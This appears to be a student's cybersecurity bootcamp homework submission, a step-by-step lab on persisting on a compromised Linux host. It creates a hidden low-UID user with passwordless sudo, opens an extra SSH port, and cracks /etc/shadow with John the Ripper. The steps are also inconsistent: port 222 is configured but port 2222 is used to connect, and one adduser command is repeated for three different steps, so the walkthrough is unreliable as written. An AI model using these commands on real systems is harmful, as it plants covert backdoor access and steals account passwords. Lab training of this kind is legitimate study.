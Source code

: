 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home -uid 111 -gid 111 sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo adduser --no-create-home -uid 111 -gid 111 sysd`

4. Give your secret user the same GID:
   - `sudo adduser --no-create-home -uid 111 -gid 111 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  ```bash
      sudo visudo
      
      sysd    ALL=(ALL:ALL) NOPASSWD: ALL
      ```   

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    sudo less /etc/shadow
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo nano /etc/ssh/sshd_config
    
    Port 222
    Port 22
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su root`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

